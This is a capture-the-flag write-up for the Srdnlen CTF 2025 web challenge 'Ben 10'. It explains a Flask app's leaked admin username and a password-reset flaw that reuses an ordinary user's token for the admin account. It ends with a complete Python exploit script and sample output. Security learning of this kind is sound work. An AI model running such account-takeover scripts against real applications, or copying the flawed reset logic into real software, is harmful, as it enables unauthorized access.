







# Srdnlen CTF 2025 - Ben 10 - Solve

## Research

First of all, as we're working on a web challenge, it might be a good idea to take a quick inventory of the various technologies used by the application before getting started.

Consequently, we're working on an application developed in Python with the Flask framework, using an SQLite database.

### Find the flag's location

As this is a white-box challenge, we have the source code at our disposal. Therefore, our first objective will be to find the location of the flag before we can start working.

If we look in the Dockerfile, we see that when the container is launched, the flag is inserted in an environment variable.

*Source file **ben10/Dockerfile** - line **12***
```dockerfile
ENV FLAG="srdnlen{test_flag}"
```

This environment variable is then retrieved by the python application and inserted into a python variable named: ```FLAG```.

*Source file **ben10/app.py** - line **10***
```python
FLAG = os.getenv('FLAG', 'srdnlen{TESTFLAG}')
```

This variable is then used by the image function... 

*Source file: **ben10/app.py** - function: **image(image_id)** - lines: **218** to **222***
```python
flag = None
if username.startswith('admin') and image_id == 'ben10':
    flag = FLAG

return render_template('image_viewer.html', image_name=image_id, flag=flag)
```
...which, assuming that the user has a name starting with  ```admin``` and that the image displayed is the one with id ```ben10```, it will render the flag on the HTML page ```image_viewer.html```.

*Source file: **ben10/templates/image_viewer.html** - lines **11** to **15***
```html

<div class="flag-container">
    <p class="error">Flag: {{ flag }}</p>
</div>

```

### Finding a way to become admin

To sum up, to be able to see the flag on the application, you need a name that starts with ```admin```. Very well then ! Let's create a user with a name that starts with ```admin```.



Unfortunately, the application rejects us.


In fact, when we look at the application code, we see that the ```register()``` function does not allow the creation of users with names beginning with ```admin```.

*Source file: **ben10/app.py** - function: **register()** - lines: **81** to **83***
```python
if username.startswith('admin') or '^' in username:
    flash("I don't like admins", "error")
    return render_template('register.html')
```

However, we can see that a user with a name starting with ```admin``` is created each time a new user is registered in the application.

*Source file: **ben10/app.py** - function: **register()** - lines: **89** to **104***
```python
admin_username = f"admin^{username}^{secrets.token_hex(5)}"
admin_password = secrets.token_hex(8)

try:
    conn = sqlite3.connect(DATABASE)
    cursor = conn.cursor()
    cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                    (username, password, admin_username))
    cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                    (admin_username, admin_password, None))
    conn.commit()
except sqlite3.IntegrityError:
    flash("Username already exists!", "error")
    return render_template('register.html')
finally:
    conn.close()
```

One very interesting thing is that the administrator's name is recorded twice in the database. The first time on the same line where the user's login and password are stored, and the second time on the line where the admin's login and password are stored.

Let's create ```user1``` in the application to see how this translates into the database.

NB: the real application database is not accessible for this challenge. It's only because the source code has been made available for the challenge that we can study more concretely the modifications made to the database by the application by running it locally. Consequently, the data presented in the database are not really those of the challenge, but only those created by my local instance of the application at the time of my user's creation. The admin user's identifiers are not usable for the real challenge, but only for my local instance.

| id | username | password | admin_username | reset_token |
| --- | --- | --- | --- | --- |
| 1 | user1 | password_user1 | admin^user1^e96e42f479 | |
| 2 | admin^user1^e96e42f479| d9e64aa22f210291 | | |

It's already clear that a brute force attack on the admin's name or password is impossible. There is around ```1.1 x 10^12``` possible combinations for the admin username and around ```1.84 x 10^19``` possible combinations for the admin password. We can't brute force both the admin username and admin password in the time of this CTF given the ressource we have at the moment. So let's forget about this option.

Why save the admin name on the same line as the user credentials? It's very odd but it doesn't matter, I had an idea to test first: can we do an SQL injection on this database?


### Is it possible to perform SQL injection?

Given the existence of a SQL database and the fact that our application executes queries on it, taking into account user inputs, it's legitimate to ask whether we can somehow achieve a [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) on this database. The goal is for it to be able to return the administration login and password.

To do this, we need to check whether our code is vulnerable to SQL injections. After a study of the application's source code and some research on the Internet, it seems unlikely that we can perform SQL injections on this database, as all the queries seem to be correctly constructed using placeholders to insert the query parameters and not a concatenation of character strings. See the example below:

*Source file: **ben10/app.py** - function: **update_password(username, new_password)** - line: **61***
```python
cursor.execute("UPDATE users SET password = ?, reset_token = NULL WHERE username = ?", (new_password, username))
```

Here are the sources that allow me to confirm this hypothesis :
- [StackOverflow post discussing the topic](https://stackoverflow.com/a/29528944)
- [Official SQLite3 documentation for Python](https://docs.python.org/3/library/sqlite3.html#sqlite3-placeholders)


### Why is the admin username saved twice in the database?

That's the question we asked ourselves before: Why save the admin name on the same line as the user?

If you look at the code, you'll see that the admin name is saved in the same line where the user login and password are stored and then displayed in the source code of the application's home page.

*Source file: **ben10/app.py** - function: **home()** - lines: **198** to **204***
```python
username = session['username']

user = get_user_by_username(username)
admin_username = user[3] if user else None

image_names = ['ben1', 'ben2', 'ben3', 'ben4', 'ben5', 'ben6', 'ben7', 'ben8', 'ben9', 'ben10']
return render_template('home.html', username=username, admin_username=admin_username, image_names=image_names)
```

*Source file: **ben10/templates/home.html** - lines: **7** to **8***
```html
<!-- secret admin username -->
<div style="display:none;" id="admin_data">{{ admin_username }}</div>
```




So we have access to data we're not supposed to have access to. This looks like a [Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/) vulnerability.


### Can I reset the password for the admin username ?

Okay, that's a good lead. There's a reason the admin username is there. We now have a way of retrieving the admin username without too much difficulty. Does this mean we can request a password reset for the admin?

Unfortunately, if you follow the classic password reset process for a user, it's not possible to do a password reset when you're admin.



*Source file: **ben10/app.py** - function: **reset_password()** - lines: **134** to **138***
```python
username = request.form['username']

if username.startswith('admin'):
    flash("Admin users cannot request a reset token.", "error")
    return render_template('reset_password.html')
```

Although at first glance it seems impossible to request an admin password reset, after a thorough analysis of the system set up to reset a user password, I realized that it contained a major security flaw. It's all in the code below.

*Source file: **ben10/app.py** - function: **forgot_password()** - lines: **171** to **187***
```python
if not username.startswith('admin'):
    token = get_reset_token_for_user(username)
    if token and token[0] == reset_token:
        update_password(username, new_password)
        flash(f"Password reset successfully.", "success")
        return redirect(url_for('login'))
    else:
        flash("Invalid reset token for user.", "error")
else:
    username = username.split('^')[1]
    token = get_reset_token_for_user(username)
    if token and token[0] == reset_token:
        update_password(request.form['username'], new_password)
        flash(f"Password reset successfully.", "success")
        return redirect(url_for('login'))
    else:
        flash("Invalid reset token for user.", "error")
```

The first part of the conditional structure (the part that starts with the ```if```), presents the password reset process for a non-admin user. It's the second part of the conditional structure (the part that starts with the ```else```) that interests us, as it explains how to reset an admin password...

Wait what?! But I thought an admin couldn't request a reset token! Reset token which is necessary to reset a password. However, the code does provide for a situation in which the admin's password can be changed. And that's where the vulnerability lies. In fact, a reset token must be retrieved based on a username. The problem lies in the way the username is retrieved for the admin user.

*Source file: **ben10/app.py** - function: **forgot_password()** - line: **180***
```python
username = username.split('^')[1]
```

Here's a demonstration of why this line 180 is a major security flaw, allowing us to change the administrator's password.

*Source: **python console***
```python
>>> username="admin^user1^572a90dfdc"
>>> username.split('^')[1]
'user1'
```

This means that to reset the password of user ```admin^user1^e96e42f479```, the application will retrieve the token of user ```user1```. Let's exploit this.

## Manual exploitation


With this vulnerability, I can request a reset token for ```user1```...





...and then change the password of user admin^user1^e96e42f479 with this token.





Then, all I have to do is log on as a ```admin^user1^e96e42f479``` with the new admin password I just set and everything works as expected!


All I have to do now is display the flag by opening the page where Ben10's image can be found.


## Automated exploitation

To conclude, here's a python script that exploit the same vulnerability automatically.

```python
import requests
import random
import string
from bs4 import BeautifulSoup

IP="HOSTNAME"
PORT=5000
BASE_URL="http://{0}:{1}/".format(IP, PORT)

# Generate random username to be sure that nobody used this username before
user_username=''.join(random.choice(string.ascii_letters) for i in range(24))

#Generate user and new admin password
user_password=''.join(random.choice(string.ascii_letters) for i in range(24))
admin_password=''.join(random.choice(string.ascii_letters) for i in range(24))

user_credentials = {'username':user_username, 'password':user_password}

# Register the user
print('Registration of user {0} with the password {1}'.format(user_username, user_password))
r = requests.post(BASE_URL + "/register",data=user_credentials)
soup = BeautifulSoup(r.content, 'html.parser')
print(soup.find("p", {"class": "error"}).text)

# Login as the User and get the admin username
print('Log in user {0}'.format(user_username))
r = requests.post(BASE_URL + "/login",data=user_credentials)
soup = BeautifulSoup(r.content, 'html.parser')
print(soup.find('div', {"class": "container"}).find("h1").text)
print("Get the admin username once logged in as user {0}".format(user_username))
admin_username = soup.find(id = 'admin_data').text
print("Admin username: {0}".format(admin_username))

# Log out User
print("Log out user {0}".format(user_username))
r = requests.get(BASE_URL + "/logout")
soup = BeautifulSoup(r.content, 'html.parser')
print(soup.find("p", {"class": "error"}).text)

# Get user reset token
print('Get Reset Token for user {0}'.format(user_username))
r = requests.post(BASE_URL + "/reset_password",data={'username':user_username})
soup = BeautifulSoup(r.content, 'html.parser')
user_reset_token = soup.find("div", {"class": "reset-token-info"}).find('p').text.split(": ")[1]
print("Reset Token for user {0}: {1}".format(user_username, user_reset_token))

# Change the admin password using the reset token of user
print('Reset password for user: {0} with user reset token {1}'.format(admin_username, user_reset_token))
forgot_password_payload = {'username':admin_username, 'reset_token': user_reset_token, 'new_password': admin_password, "confirm_password": admin_password}
r = requests.post(BASE_URL + "/forgot_password?token=" + user_reset_token,data=forgot_password_payload)
soup = BeautifulSoup(r.content, 'html.parser')
print("{0} for {1}".format(soup.find("p", {"class": "error"}).text.split('.')[0], admin_username))

## Login as admin and get the flag
payload = {'username':admin_username, 'password':admin_password}
with requests.Session() as session:
    print("Log in as admin")
    post = session.post(BASE_URL + "/login", data=payload)
    soup = BeautifulSoup(post.content, 'html.parser')
    print(soup.find('div', {"class": "container"}).find("h1").text)
    print("Go to ben10 image and get the flag")
    r = session.get(BASE_URL + "/image/ben10")
    soup = BeautifulSoup(r.content, 'html.parser')
    print(soup.find("p", {"class": "error"}).text)
```

Here's what the result of this script might look like:

```
Registration of user YUTPGSLAZkVhpJOQCiCFuGrS with the password chTWxKNkDbkEfjxOTImvuejX
Registration successful!
Log in user YUTPGSLAZkVhpJOQCiCFuGrS
Welcome, YUTPGSLAZkVhpJOQCiCFuGrS
Get the admin username once logged in as user YUTPGSLAZkVhpJOQCiCFuGrS
Admin username: admin^YUTPGSLAZkVhpJOQCiCFuGrS^6bfa7395df
Log out user YUTPGSLAZkVhpJOQCiCFuGrS
You have been logged out successfully.
Get Reset Token for user YUTPGSLAZkVhpJOQCiCFuGrS
Reset Token for user YUTPGSLAZkVhpJOQCiCFuGrS: Yaa9CV_6dIGSnZx3A0apKA
Reset password for user: admin^YUTPGSLAZkVhpJOQCiCFuGrS^6bfa7395df with user reset token Yaa9CV_6dIGSnZx3A0apKA
Password reset successfully for admin^YUTPGSLAZkVhpJOQCiCFuGrS^6bfa7395df
Log in as admin
Welcome, admin^YUTPGSLAZkVhpJOQCiCFuGrS^6bfa7395df
Go to ben10 image and get the flag
Flag: srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}
```

